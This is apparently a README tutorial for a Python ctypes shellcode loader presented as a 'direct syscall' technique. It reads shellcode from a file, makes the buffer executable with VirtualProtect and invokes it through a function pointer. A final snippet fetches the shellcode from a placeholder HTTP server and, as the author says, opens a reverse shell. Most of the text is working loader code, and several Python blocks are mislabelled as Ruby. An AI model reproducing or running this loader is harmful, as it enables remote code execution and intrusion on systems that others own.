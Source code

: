 # Direct SysCalls

Direct syscalls allow us to bypass the Win32 API layer and directly interact with the kernel by performing system calls. Each syscall is identified by a unique number, which can vary across different Windows versions. These numbers can be identified using debuggers or public syscall number lists.

This program demonstrates how to leverage Python and the `ctypes` library to execute direct system calls.

## References

- [System call - Wikipedia](https://en.wikipedia.org/wiki/System_call)
- [Windows Syscall tables by j00ru](https://github.com/j00ru/windows-syscalls)
- [VirtualProtect Documentation](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

## Building the Program

In this script, raw shellcode is read from a file and stored in memory with its protection changed using the VirtualProtect function, allowing it to be executable.

The script begins by importing necessary modules from the ctypes library, which provides tools to interact with low-level Windows APIs.

```python
import time
from ctypes import *
from ctypes import wintypes
```

The shellcode is loaded from a file named `shellcode` and stored in a buffer:

```python
with open("shellcode", "rb") as shellcode:
    buf = create_string_buffer(shellcode.read())
```

The `VirtualProtect` function is used to change the protection of the allocated memory region to `PAGE_EXECUTE_READ_WRITE`. This step ensures that the shellcode can execute within the process's memory space:

```ruby
VirtualProtect = windll.kernel32.VirtualProtect

VirtualProtect.argtypes = (
    wintypes.LPVOID,  # Address of the memory region
    SIZE_T,           # Size of the region in bytes
    wintypes.DWORD,   # New protection settings
    wintypes.LPDWORD  # Pointer to store the old protection settings
)

VirtualProtect.restype = wintypes.INT

lpAddress = addressof(buf)              # Address of the shellcode buffer
dwSize = len(buf)                       # Size of the shellcode buffer
flNewProtect = PAGE_EXECUTE_READ_WRITE  # Enable execute and read/write permissions
lpflOldProtect = byref(wintypes.DWORD(0))

VirtualProtect(
    lpAddress,
    dwSize,
    flNewProtect,
    lpflOldProtect
)
```
A syscall prototype and function pointer are defined to execute the shellcode directly. The `syscall_type` defines the expected arguments and return type of the syscall function:

```ruby
syscall_type = CFUNCTYPE(
    NTSTATUS,                # Return type of the syscall
    wintypes.HANDLE,         # Handle to the process
    POINTER(wintypes.LPVOID),# Pointer to the base address
    wintypes.ULONG,          # Zero bits for address alignment
    POINTER(wintypes.ULONG), # Pointer to the region size
    wintypes.ULONG,          # Allocation type flags
    wintypes.ULONG           # Memory protection flags
)

syscall_function = syscall_type(lpAddress)

ProcessHandle = 0xffffffffffffffff  # PseudoHandle representing the current process
BaseAddress = wintypes.LPVOID(0x0) # Starting address for allocation
ZeroBits = wintypes.ULONG(0)       # Alignment bits
RegionSize = wintypes.ULONG(1024 * 15) # Memory size to allocate

# Commit and reserve memory / # Enable execute and read/write permissions
AllocationType = MEM_COMMIT | MEM_RESERVE
Protect = PAGE_EXECUTE_READ_WRITE       

ptr = syscall_function(
    ProcessHandle,
    byref(BaseAddress),
    ZeroBits,
    byref(RegionSize),
    AllocationType,
    Protect
)
```

Finally, if the function call is successful, we print the base address of the allocated memory region and wait for 3 minutes to allow inspection.

```python
if ptr == 0:
    print("Direct Syscall: pointer ->", hex(BaseAddress.value))
    time.sleep(180)
```

## Example Output

The program executes the shellcode loaded from the `shellcode` file, performing the actions encoded within it.

In this example, I used the `requests` module to fetch the shellcode from an HTTP server and open a reverse shell. The rest of the code remains unchanged.

```python
import requests

r = requests.get("http://$ip_addr:8080/shellcode")
buf = create_string_buffer(r.content)
```

![screenshot](https://github.com/user-attachments/assets/82007541-24b0-4863-8224-012747e85f3a)


